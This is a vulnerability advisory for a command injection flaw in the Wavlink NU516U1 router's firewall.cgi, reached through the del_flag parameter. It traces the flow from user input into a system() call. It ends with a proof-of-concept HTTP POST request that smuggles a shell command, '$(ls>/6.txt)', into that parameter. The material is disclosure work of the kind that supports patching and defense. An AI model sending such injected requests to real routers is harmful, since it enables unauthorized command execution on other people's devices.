

# Wavlink NU516 singlePortForwardDelete
### Overview
vendor: Wavlink
product: NU516U1
version: M16U1_V240425
type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the del_flag parameter in the sub_4016F0 function of the file firewall.cgi.
### Vulnerability details
In the ftext function, obtain the value of the firewall parameter via user input.


Setting the value of the firewall parameter to singlePortForwardDelete will call the sub_4016F0 function.


In the sub_4016F0 function, the value of the del_flag parameter is obtained via a post request. Then, the value of the del_flag parameter is passed to the v4 variable via the sprintf function, which in turn is passed to the sub_402C98 function. In the sub_402C98 function, the value of the v4 variable is passed into the byte_418C74 variable, and finally into the system function.




### POC
```
POST /cgi-bin/firewall.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 54
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1710518235
Connection: keep-alive

firewall=singlePortForwardDelete&del_flag=$(ls>/6.txt)
```
